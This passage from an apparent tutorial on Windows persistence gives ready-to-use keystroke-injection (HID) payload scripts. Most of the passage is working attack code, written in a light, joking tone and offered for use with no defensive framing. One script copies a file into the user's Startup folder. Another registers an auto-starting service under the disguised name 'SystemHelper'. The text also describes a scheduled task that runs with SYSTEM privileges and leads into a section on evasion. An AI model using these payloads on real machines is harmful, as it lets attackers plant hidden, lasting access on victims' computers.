 **What this does:** Creates a scheduled task that runs your script every time the system starts, with SYSTEM privileges. It's like having a VIP pass to the system.

### 3. **Startup Folder Persistence** (The Simple Approach)

Sometimes the simplest solutions are the best. The startup folder is like a digital welcome mat — anything you put there gets executed when the user logs in.

```bash
# Startup Folder Persistence
ATTACKMODE HID
DELAY 2000
MOD r
DELAY 500
STRING cmd /c "copy C:\scripts\frog_script.bat \"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\""
ENTER
DELAY 1000
STRING exit
ENTER
```

**What this does:** Copies your script to the user's startup folder, ensuring it runs every login. It's like leaving your keys under the doormat.

### 4. **Service Persistence** (The Professional)

Windows services are like background workers that never sleep. They run continuously and can be configured to start automatically with the system.

```bash
# Service Persistence (Advanced)
ATTACKMODE HID
DELAY 2000
MOD r
DELAY 500
STRING cmd /c "sc create \"SystemHelper\" binPath= \"C:\scripts\helper_service.exe\" start= auto"
ENTER
DELAY 1000
STRING sc start "SystemHelper"
ENTER
DELAY 1000
STRING exit
ENTER
```

**What this does:** Creates a Windows service that starts automatically with the system. It's like hiring a permanent employee who never takes breaks.

---

## The Stealth Factor

###  **Evasion Techniques**

